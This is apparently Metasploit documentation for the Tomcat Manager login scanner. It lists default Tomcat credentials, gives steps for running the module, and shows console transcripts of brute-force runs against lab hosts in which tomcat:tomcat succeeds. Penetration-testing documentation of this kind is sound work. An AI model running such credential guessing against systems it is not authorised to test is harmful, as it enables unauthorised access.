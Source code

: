 The `auxiliary/scanner/http/tomcat_mgr_login` works for Tomcat versions that uses HTTP
authentication.

Please note that for Tomcat 7 or newer, the roles required to use the manager application were
changed from the single `manager` role to the following four roles:

* manager-gui - Allows access to the HTML GUI and the status pages.
* manager-script - Allows access to the text interface and the status pages.
* manager-jmx - Allows access to the JMX and the status pages.
* manager-status - allows access to the status pages only.

Older versions of Tomcat came with default passwords enabled by default. For example:

**Tomcat 4**

| Username | Password | Role          |
| -------- | -------- | ------------- |
| tomcat   | tomcat   | tomcat        |
| role1    | tomcat   | role1         |
| both     | tomcat   | tomcat, role1 |

**Tomcat 5**

Same as Tomcat 4

Newer Tomcat versions have these passwords commented out.

If you are using the default Metasploit credential lists, these usernames and passwords are already
loaded.


## Vulnerable Application

To download the vulnerable application, you can find it here: https://tomcat.apache.org/whichversion.html.

## Verification Steps

1. Do: ```auxiliary/scanner/http/tomcat_mgr_login```
2. Do: ```set RHOSTS [IP]```
3. Set TARGETURI if necessary.
4. Do: ```run```

## Scenarios

All scenarios are run with the credentials tomcat/tomcat.

### Tomcat 6

Tomcat 6.0.48 running on Ubuntu 14.04

```
msf > use auxiliary/scanner/http/tomcat_mgr_login
msf auxiliary(tomcat_mgr_login) > set rport 8080
rport => 8080
msf auxiliary(tomcat_mgr_login) > set rhosts 192.168.2.156
rhosts => 192.168.2.156
msf auxiliary(tomcat_mgr_login) > run

[!] No active DB -- Credential data will not be saved!
[-] 192.168.2.156:8080 - LOGIN FAILED: admin:admin (Incorrect)
```
...snip...

```
[-] 192.168.2.156:8080 - LOGIN FAILED: tomcat:root (Incorrect)
[+] 192.168.2.156:8080 - LOGIN SUCCESSFUL: tomcat:tomcat
[-] 192.168.2.156:8080 - LOGIN FAILED: both:admin (Incorrect)
```
...snip...

```
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### Tomcat 7

Tomcat 7.0.68 running on Windows XP

```
msf > use auxiliary/scanner/http/tomcat_mgr_login
msf auxiliary(tomcat_mgr_login) > set rport 8087
rport => 8087
msf auxiliary(tomcat_mgr_login) > set rhosts 192.168.2.108
rhosts => 192.168.2.108
msf auxiliary(tomcat_mgr_login) > run

[!] No active DB -- Credential data will not be saved!
[-] 192.168.2.108:8087 - LOGIN FAILED: admin:admin (Incorrect)
```

...snip...

```
[-] 192.168.2.108:8087 - LOGIN FAILED: tomcat:root (Incorrect)
[+] 192.168.2.108:8087 - LOGIN SUCCESSFUL: tomcat:tomcat
[-] 192.168.2.108:8087 - LOGIN FAILED: both:admin (Incorrect)
```

...snip...

```
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### Tomcat 8

Tomcat 8.0.32 running on Windows XP

```
msf > use auxiliary/scanner/http/tomcat_mgr_login
msf auxiliary(tomcat_mgr_login) > set rhosts 192.168.2.108
rhosts => 192.168.2.108
msf auxiliary(tomcat_mgr_login) > set rport 8088
rport => 8088
msf auxiliary(tomcat_mgr_login) > run

[!] No active DB -- Credential data will not be saved!
[-] 192.168.2.108:8088 - LOGIN FAILED: admin:admin (Incorrect)
```

...snip...

```
[-] 192.168.2.108:8088 - LOGIN FAILED: tomcat:root (Incorrect)
[+] 192.168.2.108:8088 - LOGIN SUCCESSFUL: tomcat:tomcat
[-] 192.168.2.108:8088 - LOGIN FAILED: both:admin (Incorrect)
```

...snip...

```
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
